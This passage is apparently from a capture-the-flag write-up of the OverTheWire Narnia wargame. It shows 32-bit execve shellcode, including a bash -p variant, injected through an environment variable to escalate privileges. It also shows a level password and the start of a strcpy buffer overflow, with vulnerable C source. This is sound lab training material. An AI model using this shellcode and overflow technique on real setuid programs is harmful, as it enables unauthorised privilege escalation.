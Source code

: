```bash
export EGG = 'system("/bin/sh")'
```
Unfortunately, this did not work since EGG was just ASCII characters in memory, not actual CPU instructions. I then thought about injecting actual machine code so when ret() is called it will be able to execute any instructions we want it to. So I went and searched up shell code for a 32-bit machine:
```bash
export EGG=$'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'
```
I managed to gain control over the shell however for some reason I was still narnia1:
```html
Trying to execute EGG!
$ whoami
narnia1
```
I reflected back to narnia0 where before gaining control of the shell, the program set its real userId to the effective userId. I used a similar approach by calling "/bin/bash" with the -p flag which tells the shell to keep its privileged access. Here is the shellcode:
```bash
export EGG=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80\x90'
```
I am now narnia2 and have access to the password:
```html
Trying to execute EGG!
bash-5.2$ whoami
narnia2
bash-5.2$ cat /etc/narnia_pass/narnia2
5agRAXeBdG
```

#### Narnia 03 Solution

We're given the following source code:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
It seemed like another buffer overflow exploit, since strcpy did not specify how many characters to read. I confirmed this by passing in 132 A's:
```bash
narnia2@gibson:~$ /narnia/narnia2 $(python3 -c 'print("A" * 132)')
Segmentation fault (core dumped)
```
Next, I checked if the binary was executable:
```html
narnia2@gibson:~$ file /narnia/narnia2
/narnia/narnia2: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cbf210f5149351ddfcc3a33ac83f5494225a65dd, for GNU/Linux 3.2.0, not stripped
```